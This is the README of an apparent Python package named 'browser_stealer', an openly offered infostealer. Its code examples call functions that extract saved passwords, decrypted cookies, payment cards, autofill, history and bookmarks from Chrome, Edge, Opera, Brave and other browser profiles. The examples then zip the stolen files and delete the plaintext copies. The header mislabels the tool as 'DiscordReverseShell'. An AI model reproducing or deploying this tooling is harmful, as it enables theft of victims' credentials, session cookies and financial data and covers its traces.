<!-- <h1 align="center">Browser Stealer<h1> -->

<p align="center">
  <img src="https:\\github.com\Josakko\browser_stealer\blob\main\img\banner.png?raw=true" alt="Browser Stealer">
</p>
  
<p align="center">
  <img src="https:\\img.shields.io\github\languages\top\Josakko\browser_stealer" </a>
  <img src="https:\\img.shields.io\github\last-commit\Josakko\browser_stealer" </a>
  <img src="https:\\img.shields.io\github\stars\Josakko\browser_stealer" </a>
  <img src="https:\\img.shields.io\github\forks\Josakko\browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">DiscordReverseShell</span>
  <span style="color: #fff; font-weight: normal;">v1.0.0</span>
<h4>

```
pip install browser_stealer
```

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%BROWSER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
